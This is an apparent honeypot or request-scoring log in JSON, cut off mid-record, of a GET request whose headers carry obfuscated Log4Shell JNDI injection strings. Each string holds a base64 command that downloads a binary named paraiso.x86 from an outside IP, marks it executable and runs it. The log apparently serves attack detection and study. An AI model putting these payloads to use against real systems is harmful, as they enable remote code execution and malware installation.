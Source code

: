````json
2,"rules":[{"attribute":"method","condition":"equals","value":"GET","score":2,"required":false},{"attribute":"headers","condition":"absent","value":"user-agents","score":70,"required":false}]}}
{"time":"2024-02-03T00:16:21.832033","headers":{"accept":"application/json, text/plain, */*","x-api-version":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","user-agent":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","referer":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","cookie":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","authentication":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","bearer":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","cf-connecting_ip":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","x-forwarded-for":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","x-real-ip":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","x-client-ip":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","originating-ip":"t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjdXJsIC1vIC90bXAvcGFyYWlzby54ODYgaHR0cDovLzE0MS4xNDcuNzQuMTUvc3lzdGVtMzIvcGFyYWlzby54ODYgOyBjaG1vZCAreCAvdG1wL3BhcmFpc28ueDg2IDsgY2htb2QgNzc3IC90bXAvcGFyYWlzby54ODYgOyAvdG1wL3BhcmFpc28ueDg2IFN5c3RlbTMy}')","host":"54.67.87.80:8080","connection":"close"},"sip":"95.214.53.99","dip":"54.67.87.80","method":"GET","url":"/","data":null,"useragent":["t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//141.147.79.97:6583/TomcatBypass/Command/Base64/cm0gLXJmIC90bXAvcGFyYWlzby54ODYgOyB3Z2V0IC1PIC90bXAvcGFyYWlzby54ODYgaHR0cD